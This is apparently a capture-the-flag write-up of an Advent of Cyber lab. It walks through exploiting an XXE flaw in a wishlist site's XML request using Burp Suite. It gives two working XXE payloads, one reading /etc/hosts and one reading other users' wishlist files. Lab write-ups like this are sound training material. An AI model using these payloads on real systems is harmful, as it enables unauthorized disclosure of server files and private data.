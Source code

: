 # (Day 5) - Advent of Cyber

Target IP - 10.10.89.163

## Website

There is an XXE vulnerability present in the website we can see this by navigating to the website and using BurpSuite to analyse the requests:

![[Pasted image 20241206231318.png]]

Here we see a post request captures from adding an item to a wishlist, let's see if we can exploit this xml, we will try to exploit it using this payload:

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```

There we receive this, confirming that an xxe vulnerability is present here:

![[Pasted image 20241206232624.png]]

So now we are able to change our payload to this, trying to see if we are able to see the wishlist's that we weren't able to access previously:

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
<wishlist>
	<user_id>1</user_id>
	<item>
	       <product_id>&payload;</product_id>
	</item>
</wishlist>
```

There we receive this response, we will continue to iterate until we find the flag:

![[Pasted image 20241206233308.png]]

We were also told of a changelog so we decided to move to it, and we see that Mayor Malware has pushed a change after Software.

![[Pasted image 20241206235010.png]]

